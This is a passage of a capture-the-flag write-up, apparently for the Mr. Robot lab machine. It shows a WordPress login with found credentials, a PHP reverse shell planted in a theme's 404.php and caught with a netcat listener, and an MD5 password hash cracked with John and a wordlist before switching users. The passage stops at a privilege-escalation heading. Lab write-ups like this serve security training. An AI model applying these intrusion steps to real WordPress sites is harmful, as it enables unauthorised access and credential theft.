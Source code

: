<img width="1775" height="1059" alt="Screenshot (13)" src="https://github.com/user-attachments/assets/4dc3e2f7-2823-43c3-8a90-23d9365f5152" />
<img width="3440" height="1440" alt="Screenshot (14)" src="https://github.com/user-attachments/assets/a0ed016b-aac3-406c-a0bb-d3620dafedf6" />

We can use these for the wordpress credentials! And we are in!

<img width="1768" height="831" alt="Screenshot (15)" src="https://github.com/user-attachments/assets/c33a69d2-6d12-452d-8a42-9fd3e0d71d64" />


## Reverse Shell via WordPress Theme

I used WordPress’s built-in Theme Editor:

Appearance → Theme Editor → 404.php

<img width="1767" height="1039" alt="Screenshot (17)" src="https://github.com/user-attachments/assets/d50527c4-33b6-48a4-a206-63ab4bc79342" />

I pasted a PHP reverse shell into 404.php, saved changes, then triggered it by visiting a missing page. On my attacker machine:

```
nc -nvlp 4444
Shell received — user: daemon
```
<img width="1530" height="524" alt="Screenshot (20)" src="https://github.com/user-attachments/assets/7d828a9d-3672-40f7-b42f-41983b7e02ca" />

With access to the daemon user, I did the command:

```
cd /home/robot/
```

Here are two files:
```
key-2-of-3.txt
password.raw.md5

```

The password.raw.md5 was readable, so I saved the hash and cracked it with John:
```
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

This recovered the password:
```
robot:abcdefghijklmnopqrstuvwxyz
```

Switched users:
```
su robot
```
Now we can successfully read key-2-of-3.txt

## Root Escalation via SUID nmap
